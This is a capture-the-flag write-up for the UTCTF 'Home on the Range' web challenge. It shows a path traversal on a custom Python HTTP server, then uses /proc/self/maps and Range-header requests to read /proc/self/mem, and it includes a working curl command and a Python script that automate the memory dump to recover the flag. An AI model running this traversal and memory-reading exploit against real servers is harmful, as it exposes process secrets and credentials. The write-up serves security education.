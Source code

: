 # Web

##  Home on the Range 


### Info

![](screenshots/1.png)


## solution:

this challenge is one of the best challenges i solved in ctfs because it touched a really interesting concept with educational way ....
there is i think 3 steps to solve the challenge:

### First step: Path Traversal:

so the description said that `I wrote a custom HTTP server to play with obscure HTTP headers.` and trying to request the home page , we will notice that the server is a simple python httpserver `Server: 
BaseHTTP/0.6 Python/3.12.2`

![](screenshots/2.png)

we can see there is a `hello.html` file actually this file doesn't matter but trying to request it will give us an http header called `Accept-Ranges` you can find [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Accept-Ranges) more information about it ,because we will need it later!
![](screenshots/3.png)

now we know it's a simple python httpserver and yes it's vulnerable to path traversal from we can try access to the root dir by just go back `GET /../../ HTTP/1.1 Host: guppy.utctf.live:7884`:
![](screenshots/4.png)

and YES we can see the root dir list , ofc we will try to search for the flag.txt thinking it's a simple challenge!
but wait until you open the `server.py` file XD
it's a looong script ! it's a customized http server like the description says with a custom `Range` HEADER
```bash
import os
from html import escape
from mimetypes import guess_type
import re
from random import randbytes
import signal
import sys
import threading

with open("/setup/flag.txt") as f:
    the_flag = f.read()
os.remove("/setup/flag.txt")

def process_range_request(ranges, content_type, file_len, write_header, write_bytes, write_file_range):
    boundary = randbytes(64).hex()
    for [first, last] in (ranges if ranges != [] else [[None, None]]):
        count = None
        if first is None:
            if last is None:
                first = 0
            else:
                first = file_len - last
                count = last
        elif last is not None:
            count = last - first + 1

        if (count is not None and count < 0) or first < 0:
            return False
            .
            .
            .
```




### Second step: Understand the Code And the Range header:

so we leaked the server code and it's so long but only 3 sections i found importants 
the first lines:
```
with open("/setup/flag.txt") as f:
    the_flag = f.read()
os.remove("/setup/flag.txt")
```
the lines that explain how the Range header works in the function `def process_range_request(ranges, content_type, file_len, write_header, write_bytes, write_file_range)` 

the last lines:

```
server.serve_forever()
with open("/setup/flag.txt", "w") as f:
    f.write(the_flag)
```
1-just from this thre sections we know there were a file named flag.txt , we read its content to a variable named `the_flag` and we removed it !

2-also we can understand how `Range` work and briefly it's like can split the downloaded data to bytes ranges
with the format Range: bytes=[start-end],[start,end],...... and get  a response for each region 

3-we can clearly say that the flag won't be written in the file again unless the server is down!because of this`server.serve_forever()`

### Third step: The exploit:

After reading the code actually i thought we have to crush the server somehow then perform a Race Condition
to read the /setup/flag.txt before the script delete it but the author of the challenge said:
```
What approaches are invalid?
Trying to crash/shutdown/SIGTERM the server
Performance or race conditions
Brute force / dirbuster
Exploits of the Python interpreter
```

So me And my teammate [0utC4s7](https://cybersecfun.pythonanywhere.com/index.html) searhed a lot about how we can get the file again ! But Wait it's impossible ...... After a while we thought that `the_flag` variable it's not setted for nothing , Here we start searching About how we can Read a variable content in a running proces ! we start by reading the `proc/self/cmdline` to identify the  runnin process and indeed it's `server.py`

![](screenshots/5.png)

then we found out the file `proc/self/maps` that contains memory map information for the process, providing details of the virtual memory address space and their permissions :

![](screenshots/6.png)

And here we Got the idea of reading the Memory to find `the_flag` variable and we have : `/proc/self/mem` our champion because it provides direct access to the memory of a the process , but we didn't celebrate for long time:

![](screenshots/7.png)

Error code explanation: 500 - I/O error ! we tried to read the file in our local machines :

```bash
┌──(mo㉿ElMo)-[~]
└─$ cat /proc/self/mem   
cat: /proc/self/mem: Input/output error
```
same thing ..... there is something wrong here , But Waaait here u can start to link the ideas 

1-we have a file `maps` contain memory map infos with region of the VM with permessions And not all regions are readable ?!!

2-we have `mem` file that contain the content of the memory , BUT `we cant read it simply because we dont have permission to read all regions` 

3- we have `Range` header that can read specific range of bytes 

HERE the brilliant Idea , we can read region by region  in the `mem` file the using `Range Header` and getting the starting and ending addresses of each region  from the `maps` file.
if u didnt understand well what the files do read [here](https://medium.com/@razika28/inside-proc-a-journey-through-linuxs-process-file-system-5362f2414740)

so we can read the mem liks this:(`NB: we have pass the start - end of region to the Range header as decimal`)

![](screenshots/8.png)

let's go ... it worked we can now read the memory , so we keap reading the region that we have permission for 
and we get the flag by searching for the flag format:

![](screenshots/9.png)

we can automate the process 
```bash
curl 'http://guppy.utctf.live:7884/../../proc/self/maps' --path-as-is -s -H 'Range: bytes=0-22770' > memory_ranges.txt 
```
```python
import requests

def hex_to_decimal(hex_str):
    return int(hex_str, 16)

def read_memory_ranges(file_path):
    memory_ranges = []
    with open(file_path, 'r') as file:
        for line in file:
            if line.strip():
                parts = line.split()
                start_hex = parts[0].split('-')[0]
                end_hex = parts[0].split('-')[1]
                start_decimal = hex_to_decimal(start_hex)
                end_decimal = hex_to_decimal(end_hex)
                memory_ranges.append((start_decimal, end_decimal))
    return memory_ranges

def send_requests(memory_ranges):
    for start, end in memory_ranges:
        url = "http://guppy.utctf.live:7884/../../proc/self/mem"
        headers = {'Range': 'bytes={}-{}'}
        headers['Range'] = headers['Range'].format(start, end)
        response = requests.get(url, headers=headers)
        print(f"\nResponse for Range {start}-{end}: {response.status_code}")
        if "utflag" in response.text:
            print("\nFLAG FOUND!!!")
            print(response.text)
            exit()

def main():
    file_path = "./memory_ranges.txt" 
    memory_ranges = read_memory_ranges(file_path)
    send_requests(memory_ranges)

if __name__ == "__main__":
    main()
```



